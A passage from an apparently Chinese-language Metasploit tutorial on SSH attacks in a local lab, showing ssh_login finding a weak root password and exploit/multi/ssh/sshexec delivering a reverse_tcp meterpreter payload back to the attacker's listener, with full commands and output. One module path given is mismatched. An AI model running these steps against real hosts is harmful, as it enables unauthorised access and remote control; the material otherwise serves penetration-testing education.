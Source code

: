 ```

Active sessions
===============

  Id  Type         Information                       Connection
  --  ----         -----------                       ----------
  4   shell linux  SSH root:toor (192.168.1.104:22)  192.168.1.105:54562 -> 192.168.1.104:22 (192.168.1.104)

msf auxiliary(ssh_login) >

```

![enter image description here](http://drops.javaweb.org/uploads/images/b43567d8fee054170a960165d37ff02843cb3101.jpg)

这里metasploit在探测ssh弱口令时，如果发现存在，则会返回一个linux shell，注意此时不是meterpreter shell。接下来可以使用

```
sessions –u id

```

将linux shell升级为meterpreter shell，本地测试失败了。:(

**sshexec**

模块路径:`auxiliary/scanner/ssh/ssh_login`

注意这个模块BT5下是没有的，kali中则存在。

```
msf> use exploit/multi/ssh/sshexec 
msf exploit(sshexec) > set payload linux/x86/meterpreter/reverse_tcp 
payload => linux/x86/meterpreter/reverse_tcp
msf exploit(sshexec) > set LHOST 192.168.1.105 
LHOST => 192.168.1.105
msf exploit(sshexec) > set LPORT 8080
LPORT => 8080
msf exploit(sshexec) > set RHOST 192.168.1.104
RHOST => 192.168.1.104
msf exploit(sshexec) > set PASSWORD toor
PASSWORD => toor
msf exploit(sshexec) > exploit 

[*] Started reverse handler on 192.168.1.105:8080 
[*] 192.168.1.104:22 - Sending Bourne stager...
[*] Command Stager progress -  40.39% done (288/713 bytes)
[*] Transmitting intermediate stager for over-sized stage...(100 bytes)
[*] Sending stage (1228800 bytes) to 192.168.1.104
[*] Command Stager progress - 100.00% done (713/713 bytes)
[*] Meterpreter session 3 opened (192.168.1.105:8080 -> 192.168.1.104:40813) at 2014-08-07 22:53:12 +0800

meterpreter > 

```
